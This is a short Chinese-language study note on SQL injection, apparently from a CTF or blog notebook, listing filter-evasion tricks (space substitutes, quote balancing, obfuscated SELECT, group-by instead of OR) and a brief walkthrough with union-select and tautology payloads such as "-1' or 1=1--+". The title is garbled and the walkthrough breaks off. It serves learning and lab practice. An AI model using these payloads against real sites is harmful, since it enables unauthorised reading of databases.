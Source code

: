 SQL注注注注

[TOC]

###### 一些bypass

[SQL注入针对关键字过滤的绕过技巧 - zu1k](https://zu1k.com/posts/security/web-security/bypass-tech-for-sql-injection-keyword-filtering/)

```

空格绕过：%20 %09 %0a %0b %0c %0d %a0 %00 /**/    ()
#,--+绕过：
常见的sql查询语句:
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";  
我指的单引号就是$id'的这个单引号，一般我们会用#注释掉，现在没法注释掉后，应该怎么办呢？

当有一个'时，这一个'会落单报错，但是当有一个和他一起闭合时就不报错了
只要'能匹配，多少个'都没有事。  
select ''   这样虽然查询为空，但是是不报错的。

我们输入  ?id=1''   ，会发现不报错了已经，但是我们尝试?id=1' or 1=1'  
发现出错了。是因为只能直接用在select中，注意是直接。
?id=1''    查询语句变为select * from user where id='1''' LIMIT0,1     可以
?id=1' and 1=1' 查询:SELECT * FROM users WHERE id='1' or 1=1'' LIMIT 0,1   不可以
id=-1'  union select 1,2,3'   可以
所以说是直接在select中   

select被过滤：
/*!%53eLEct*/          sel<>ect

or被过滤：
group by

-1'/**/group/**/by/**/25,'2
'2是为了闭合掉后面的那个引号。

```

1.打开每一个网页都遛了一遍，没发现什么，但是在f12的网络里找到了端倪，明显是个注入点

![img](https://img-blog.csdnimg.cn/23f3168665e74dbdba7f0c1672dd50b0.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAODd4MDA=,size_20,color_FFFFFF,t_70,g_se,x_16)

 

2.访问页面后开始注入（注意要把#的地方换成[backend](https://so.csdn.net/so/search?q=backend&spm=1001.2101.3001.7020)查看后台数据，不然可能看不到回显）

数字型

1 and 1=2 union select 1,database(),3,4,5,6,7

先测试[回显](https://so.csdn.net/so/search?q=回显&spm=1001.2101.3001.7020)位置

-1' or 1=1--+

1'or'1
